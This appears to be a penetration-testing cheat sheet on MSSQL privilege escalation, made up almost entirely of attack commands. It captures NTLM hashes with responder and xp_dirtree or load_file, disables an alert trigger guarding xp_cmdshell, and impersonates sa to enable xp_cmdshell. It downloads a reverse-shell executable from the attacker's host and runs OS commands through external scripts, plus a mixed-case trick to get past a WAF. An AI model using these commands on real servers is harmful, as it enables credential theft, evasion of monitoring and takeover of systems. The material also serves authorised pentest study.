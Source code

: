 ```yaml
---
title: "MSSQL Privilege Escalation"
date: 2024-6-27
tags: ["mssql", "database", "Windows", "exploit", "rce", "privesc", "pe"]
---
```


### Abuse #1: Steal NTLM hash

<div>

```console
# In our local Linux machine
sudo responder -I tun0
```

</div>

{{< tab set1 tab1 active >}}Method 1{{< /tab >}}
{{< tab set1 tab2 >}}Method 2{{< /tab >}}
{{< tab set1 tab3 >}}Method 3{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
xp_dirtree '\\<LOCAL_IP>\any\thing';
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

<div>

```console
use master; exec xp_dirtree '\\<LOCAL_IP>\any\thing';
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

<div>

```console
load_file('\\<LOCAL_IP>\any\thing');
```

</div>

{{< /tabcontent >}}

### Abuse #2: Run xp_cmdshell

<div>

```console
# Check any policy blocking xp_cmdshell
select name from sys.server_triggers;
```

```console
# Disable trigger if any
disable trigger ALERT_xp_cmdshell on all server;
```

```console
# Enable xp_cmdshell
enable_xp_cmdshell;
```

```console
# RCE
xp_cmdshell whoami
```

</div>

### Abuse #3: Impersonate sa to run xp_cmdshell

<div>

```console
execute as login = 'sa'; exec sp_configure 'show advanced options', 1;
```

```console
execute as login = 'sa'; reconfigure;
```

```console
execute as login = 'sa'; exec sp_configure 'xp_cmdshell', 1;
```

```console
execute as login = 'sa'; reconfigure;
```

```console
execute as login = 'sa'; EXEC master..xp_cmdshell 'powershell.exe -ep bypass curl <LOCAL_IP>/rev.exe -o C:\ProgramData\rev.exe'
```

</div>

<small>*Note: try xp_cmDshElL to bypass WAF*</small>

### Abuse #4: Run External Script

<div>

```console
EXEC sp_execute_external_script @language =N'Python', @script = N'import os; os.system("whoami");';
```

</div>

<br>